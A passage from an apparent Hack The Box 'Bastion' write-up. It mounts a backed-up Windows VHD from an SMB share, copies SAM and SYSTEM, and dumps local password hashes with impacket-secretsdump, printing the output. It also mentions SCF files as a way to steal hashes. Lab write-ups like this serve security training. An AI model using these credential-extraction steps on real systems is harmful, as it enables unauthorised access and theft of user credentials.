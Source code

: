 > **Note**: when we have write permissions to a SMB share, we could leave **SCF** files to steal user/admin hashes. [Source](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-scf)

#### Mounting VHD

By exploring the share, we can see there are tow `.vhd` _(virtual hard drive)_ files:

{% highlight console %}
root@kali:/mnt/bastion/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351# du -hs *
37M     9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
5.1G    9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd
4.0K    BackupSpecs.xml
4.0K    BackupSp.swp
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_AdditionalFilesc3b9f3c7-5e52-4d5e-8b20-19adc95a34c7.xml
12K     cd113385-65ff-4ea2-8ced-5630f6feca8f_Components.xml
8.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_RegistryExcludes.xml
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer4dc3bdd4-ab48-4d07-adb0-3bee2926fd7f.xml
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml
4.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml
8.0K    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml
2.3M    cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml
{% endhighlight %}

We can use `7z l <VHD_file>` to list files or just mount them using `guestmount`: 

{% highlight bash %}
$ apt install libguestfs-tools -y
$ mkdir /mnt/vhd/
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/ -v
...
{% endhighlight %}

#### Extracting password hashes

Once the vhd mounted, we could go tho `Windows/System32/config/` directory where we can retrieve two interesting files:

1. the `SAM` database which contains all users password hashes
2. hashes are encrypted with a key which can be found in `SYSTEM`

> **Note**: if we were in a Domain controller, we would grab `NTDS.dit` also to extract the Active Directory Database

{% highlight console %}
root@kali:/mnt/vhd/Windows/System32/config# cp SAM ~/htb/machines/Windows/Bastion/
root@kali:/mnt/vhd/Windows/System32/config# cp SYSTEM ~/htb/machines/Windows/Bastion/
{% endhighlight %}

Now we can extract the hashes using tools like [`pwdump`](https://github.com/Neohapsis/creddump7.git) or `impacket-secretsdump`:

{% highlight bash %}
$ impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
{% endhighlight %}

